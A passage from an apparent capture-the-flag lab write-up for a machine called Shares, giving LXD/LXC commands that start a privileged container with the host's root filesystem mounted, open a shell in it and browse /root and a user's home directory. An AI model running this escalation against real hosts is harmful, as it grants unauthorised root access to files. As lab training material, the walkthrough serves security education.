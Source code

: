 check pool list
```
lxc storage list
```
![051a54f5cd145fb1b5a3ad9331d5e7da.png](/assets/images/cyberseclabs-shares/716922f5ad5a4eb39df4f688d8584111.png)

```
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
root directory
```
cd /mnt/root/root
```

![8bd7f93329b4b1cb2196787e30b38bd9.png](/assets/images/cyberseclabs-shares/4fc16457adba45e4b7a4d3c0d7166e69.png)

amy's directory
```
cd /mnt/root/home/amy
```
![c190baed333418b7452be9b43a50d139.png](/assets/images/cyberseclabs-shares/9fa4c349f819445c9d4e45067874dba0.png)

